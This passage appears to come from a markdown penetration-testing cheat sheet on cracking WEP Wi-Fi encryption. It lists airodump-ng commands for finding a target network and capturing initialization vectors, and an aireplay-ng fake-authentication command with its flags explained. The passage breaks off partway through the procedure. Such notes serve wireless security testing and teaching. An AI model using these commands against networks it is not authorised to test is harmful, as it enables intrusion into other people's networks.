 ### WLAN Disconnection

```bash
sudo dhclient wlan# -r
sudo ip link set wlan# down
```

### Removing Old WPA Supplicant Configuration

To avoid inadvertent probing to older networks:

```bash
sudo rm /etc/wpa_supplicant/wpa_supplicant.conf
```

## Defeating WEP

### Discovering Target Network

```bash
airodump-ng –band ab wlan#mon
airodump-ng --bssid <target MAC> -c# wlan#mon
```

### Collecting Initialization Vectors (IVs)

#### Passive IV Collection

```bash
airodump-ng --bssid <target MAC> -c# wlan#mon -w <output>
```

#### Active IV Collection

Used when WAP is using WEP but little or no traffic
[How to Crack WEP with no Clients](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

#### Using Four Windows for Active Collection

1. **AIRODUMP**

    ```bash
    airodump-ng --bssid <target MAC> -w <output>
    ```

    NOTE: You need a minimum amount of 5000 Initialization Vectors (IVs) to crack WEP

2. **FAKE AUTH** = USE WHEN THERE'S LIMITED DATA

    ```bash
    aireplay-ng -1 <delay# (1-4)> –a <BSSID> -h <Host MAC> <interface>
    ```

    1. `-1` or `--fakeauth`: fake authentication with AP
    2. `-a`: set Access Point MAC Addresses
    3. `-h`: your host MAC Addresses
